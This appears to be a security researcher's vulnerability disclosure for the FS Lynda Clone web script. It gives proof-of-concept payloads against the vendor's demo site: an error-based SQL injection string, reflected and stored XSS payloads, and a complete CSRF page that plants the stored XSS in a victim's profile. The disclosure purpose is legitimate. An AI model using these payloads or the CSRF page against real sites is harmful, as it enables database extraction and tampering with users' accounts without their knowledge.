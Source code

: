 ### FS Lynda Clone- the lastest version - SQL Injection/XSS/CSRF

#### ADLab of Venustech

Well,  when I pentest the official demo site of FS Lynda Clone, I found some vulnerabilities here.


#### SQL Injection:

As you can see here, we can obtain the current database user or more sensitive data now!
For example:
```
http://lynda-clone.demonstration.co.in/tutorial/

POST para and poc:
keywords=123' AND (SELECT 3835 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(3835=3835,1))),0x7171706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'sYtx' LIKE 'sYtx
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/sqli.png)


#### XSS:

Here I found some xss, inclue stored-xss and reflect-xss：

##### Reflect-Xss
```
http://lynda-clone.demonstration.co.in/tutorial/

POST：
keywords=123'"><svg/onload=alert(/XSS/)><'"
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss2.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss1.png)

##### Stored-Xss

It's the user panel here, some fields suffer this bug.
```
http://lynda-clone.demonstration.co.in/user/edit_profile

POST parameters:
Jhon'"><svg/onload=alert(/xss/)><'"
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss3.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss4.png)

By the way , these xss vulnerabilitys need to be combined with csrf attack.

#### CSRF
There is no csrf protection here.
For example , with the aforementioned stored-xss , we can cheat the user to visit an evil page on our site。
Then the user will add a evil content to his user panel, and know nothing about the attack.

```
<html>
   <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/lynda-clone.demonstration.co.in\/user\/edit_profile", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryTbB3nj532aSAuKxi");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_first_name\"\r\n" + 
          "\r\n" + 
          "Jhon\'\"\x3e\x3csvg/onload=alert(/xss/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_last_name\"\r\n" + 
          "\r\n" + 
          "Doe\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_email\"\r\n" + 
          "\r\n" + 
          "user@yourmail.com\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_mobile\"\r\n" + 
          "\r\n" + 
          "9871452630\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_country\"\r\n" + 
          "\r\n" + 
          "India\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_photo\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_photo_name\"\r\n" + 
          "\r\n" + 
          "20170802141220498.jpg\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_about\"\r\n" + 
          "\r\n" + 
          "Maecenas accumsan, massa nec vulputate congue, dolor erat ullamcorper dolor, ac aliquam eros sem in dui. In eu sagittis metus. Proin consectetur suscipit dui sed euismod. Nam non metus in est vehicula vestibulum et vel neque. Mauris scelerisque lectus at diam pretium, eget fringilla erat sollicitudin.Pellentesque quis pharetra tellus. Donec interdum nisi at sem ornare, ut congue felis eleifend. Nam elementum nec leo eget pharetra. Quisque consectetur porta erat sit amet fermentum.\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social1\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social2\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social3\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social4\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_testimonial\"\r\n" + 
          "\r\n" + 
          "Cras dapibus. Vivamus elementum semper nisi. Aenean vulputate eleifend tellus. Aenean leo ligula, porttitor eu, consequat vitae, eleifend ac, enim. Aliquam lorem ante, dapibus in, viverra quis, feugiat a, tellus. Phasellus viverra nulla ut metus varius laoreet. \r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile\"\r\n" + 
          "\r\n" + 
          "Update\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>


```










